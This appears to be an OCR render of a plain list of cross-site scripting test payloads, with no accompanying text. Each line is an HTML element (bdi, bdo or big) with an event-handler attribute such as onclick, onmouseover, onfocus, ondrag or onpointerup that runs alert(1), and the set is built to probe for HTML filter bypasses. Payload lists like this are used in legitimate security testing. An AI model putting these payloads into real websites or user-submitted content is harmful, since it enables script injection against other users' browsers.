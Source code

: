 <bdi onpointerup=alert(1) style=display:block>XSS</bdi>
<bdo draggable="true" ondrag="alert(1)" style=display:block>test</bdo>
<bdo draggable="true" ondragend="alert(1)" style=display:block>test</bdo>
<bdo draggable="true" ondragenter="alert(1)" style=display:block>test</bdo>
<bdo draggable="true" ondragleave="alert(1)" style=display:block>test</bdo>
<bdo draggable="true" ondragstart="alert(1)" style=display:block>test</bdo>
<bdo id=x style="transition:outline 1s" ontransitionend=alert(1) tabindex=1></bdo>
<bdo id=x tabindex=1 onfocus=alert(1)></bdo>
<bdo id=x tabindex=1 onfocusin=alert(1)></bdo>
<bdo onafterscriptexecute=alert(1)><script>1</script>
<bdo onbeforecopy="alert(1)" contenteditable>test</bdo>
<bdo onbeforecut="alert(1)" contenteditable>test</bdo>
<bdo onbeforescriptexecute=alert(1)><script>1</script>
<bdo onblur=alert(1) id=x tabindex=1 style=display:block>test</bdo><input value=clickme>
<bdo onclick="alert(1)" style=display:block>test</bdo>
<bdo oncontextmenu="alert(1)" style=display:block>test</bdo>
<bdo oncopy=alert(1) value="XSS" autofocus tabindex=1 style=display:block>test
<bdo oncut=alert(1) value="XSS" autofocus tabindex=1 style=display:block>test
<bdo ondblclick="alert(1)" autofocus tabindex=1 style=display:block>test</bdo>
<bdo onfocusout=alert(1) id=x tabindex=1 style=display:block>test</bdo><input value=clickme>
<bdo onkeydown="alert(1)" contenteditable style=display:block>test</bdo>
<bdo onkeypress="alert(1)" contenteditable style=display:block>test</bdo>
<bdo onkeyup="alert(1)" contenteditable style=display:block>test</bdo>
<bdo onmousedown="alert(1)" style=display:block>test</bdo>
<bdo onmouseenter="alert(1)" style=display:block>test</bdo>
<bdo onmouseleave="alert(1)" style=display:block>test</bdo>
<bdo onmousemove="alert(1)" style=display:block>test</bdo>
<bdo onmouseout="alert(1)" style=display:block>test</bdo>
<bdo onmouseover="alert(1)" style=display:block>test</bdo>
<bdo onmouseup="alert(1)" style=display:block>test</bdo>
<bdo onmousewheel=alert(1) style=display:block>requires scrolling
<bdo onpaste="alert(1)" contenteditable>test</bdo>
<bdo onpointerdown=alert(1) style=display:block>XSS</bdo>
<bdo onpointerenter=alert(1) style=display:block>XSS</bdo>
<bdo onpointerleave=alert(1) style=display:block>XSS</bdo>
<bdo onpointermove=alert(1) style=display:block>XSS</bdo>
<bdo onpointerout=alert(1) style=display:block>XSS</bdo>
<bdo onpointerover=alert(1) style=display:block>XSS</bdo>
<bdo onpointerrawupdate=alert(1) style=display:block>XSS</bdo>
<bdo onpointerup=alert(1) style=display:block>XSS</bdo>
<big draggable="true" ondrag="alert(1)" style=display:block>test</big>
<big draggable="true" ondragend="alert(1)" style=display:block>test</big>
<big draggable="true" ondragenter="alert(1)" style=display:block>test</big>
<big draggable="true" ondragleave="alert(1)" style=display:block>test</big>
<big draggable="true" ondragstart="alert(1)" style=display:block>test</big>
<big id=x style="transition:outline 1s" ontransitionend=alert(1) tabindex=1></big>
<big id=x tabindex=1 onfocus=alert(1)></big>
<big id=x tabindex=1 onfocusin=alert(1)></big>
<big onafterscriptexecute=alert(1)><script>1</script>
<big onbeforecopy="alert(1)" contenteditable>test</big>
<big onbeforecut="alert(1)" contenteditable>test</big>
<big onbeforescriptexecute=alert(1)><script>1</script>
<big onblur=alert(1) id=x tabindex=1 style=display:block>test</big><input value=clickme>
<big onclick="alert(1)" style=display:block>test</big>
<big oncontextmenu="alert(1)" style=display:block>test</big>
<big oncopy=alert(1) value="XSS" autofocus tabindex=1 style=display:block>test
<big oncut=alert(1) value="XSS" autofocus tabindex=1 style=display:block>test
<big ondblclick="alert(1)" autofocus tabindex=1 style=display:block>test</big>
<big onfocusout=alert(1) id=x tabindex=1 style=display:block>test</big><input value=clickme>
<big onkeydown="alert(1)" contenteditable style=display:block>test</big>
<big onkeypress="alert(1)" contenteditable style=display:block>test</big>
<big onkeyup="alert(1)" contenteditable style=display:block>test</big>
<big onmousedown="alert(1)" style=display:block>test</big>
<big onmouseenter="alert(1)" style=display:block>test</big>